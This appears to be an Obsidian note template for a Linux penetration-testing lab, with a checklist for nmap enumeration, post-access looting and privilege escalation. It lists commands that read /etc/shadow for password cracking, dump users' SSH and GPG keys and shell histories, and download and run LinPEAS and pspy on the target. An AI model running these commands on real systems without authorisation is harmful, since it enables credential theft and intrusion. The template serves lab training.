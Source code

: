 #show #linux
<%*
const path = tp.file.folder(true).split('/');
const filename = "0_A_Linux_" + path[path.length - 1];
await tp.file.rename(filename);
tR += "Part of " + "[" + "[" + "0_Lab_" + path[path.length - 2] + "]]";
-%>

# Enumeration

```bash
export hip="";nmap --top-ports 30 $hip
```

```bash
i="$hip";sudo nmap --osscan-guess -A -p- $i -oX - | xsltproc -o 0_overview.html - && firefox 0_overview.html && sudo nmap -sUV --top-ports 100 $i -oN 0_udp_top100.txt
```
With ProxyChains: `sudo proxychains nmap -sT -A --osscan-limit --top-ports 100 -Pn -n $hip -oX - | xsltproc -o 0_overview.html - && firefox 0_overview.html`
> Then, create services templates.

# Initial Foothold

### Software Versions

	 `searchsploit` and Google Dorks

### Insecure configurations
> Use the service template to document possible attack vectors and document here which worked
> NSE scripts: `ls /usr/share/nmap/scripts`
> Run the following for all services: `nmap --script "safe and smb-*" $hip`. If nothing helps, try `nmap --script "smb-vuln-*" $hip`


# Loot

Hostname `hostname`
	

Flag `cat /home/$(id -un)/local.txt`
	

Upgrade [[1_shells#Upgrades]]
	
##### Users
```bash
cat /etc/passwd; cat /etc/shadow; w
```
	
`unshadow passwd shadow > unshadowed.txt` 
##### Network
```bash
ip a; /sbin/route; netstat -anp; sudo iptables -S
```
	
##### Interesting files
```bash
echo -e "\n## KEYS: ##"; ls /home/*/.gpg/; ls /home/*/.ssh/; echo -e "\n## HISTORY: ##"; cat /home/*/.*_history; echo -e "\n## GIT: ##"; find / -name ".git" 2>/dev/null | cd | git config --list 2>/dev/null; echo -e "\n## MAIL: ##"; ls -alh /var/mail/
```
	
##### Home folder
```bash
ls -al /home/*/; ls -al /root/; find / -user $(id -un) -type f 2>/dev/null | grep -Ev "^/sys|^/run|^/proc"
```
	
# PrivEsc
Find Working Dir for attack
```bash
find / -writable -type d -print -quit 2>/dev/null
```
	

### LinPEAS
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh; chmod +x linpeas.sh; ./linpeas.sh &> linpeas.txt & less -r +F linpeas.txt
```
Read it with color-highlighting using `less -r linpeas.txt`
```bash
grep "CRON" /var/log/syslog; dpkg -l
```
Get commands run by non-accessible cronjobs and other tasks
```bash
wget -q https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy32 && chmod +x pspy32 && timeout 30s ./pspy32 | tr -s ' ' | cut -d ' ' -f 3-4,7- | sed -e 's/$/\x1b[m/' | perl -ne 'BEGIN{$|=1}; print unless ${$_}++'
```

##### Finding 1
